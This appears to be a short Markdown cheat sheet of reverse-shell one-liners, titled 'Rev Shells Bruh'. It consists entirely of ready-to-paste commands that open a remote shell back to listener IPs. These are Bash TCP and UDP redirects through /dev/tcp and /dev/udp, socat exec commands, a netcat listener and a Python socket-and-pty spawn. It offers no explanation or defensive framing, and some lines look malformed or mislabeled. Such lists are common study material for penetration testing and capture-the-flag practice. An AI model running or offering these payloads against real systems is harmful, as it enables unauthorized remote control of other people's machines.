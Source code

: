 ## Table of Contents

- [Rev Shells Bruh](#rev\shells\bruh)
      - [Bash TCP](#Bash\TCP)
      - [Bash UDP](#Bash\UDP)
      - [Socat](#Socat)
      - [Python](#Python)

# Rev Shells Bruh

#### Bash TCP
```bash
bash -i >& /dev/tcp/10.10.16.6/6969 0>&1

0<&196;exec 196<>/dev/tcp/10.6.34.114/6969; sh <&196 2>&196

/bin/bash -l /dev/tcp/10.5.34.114/6969 0<&1 2>&1

```

#### Bash UDP

```shell
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

#### Socat
```shell
user@VICTIM_MACHINE$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@VICTIM_MACHINE$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.34.114:6969
```

#### Python
```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
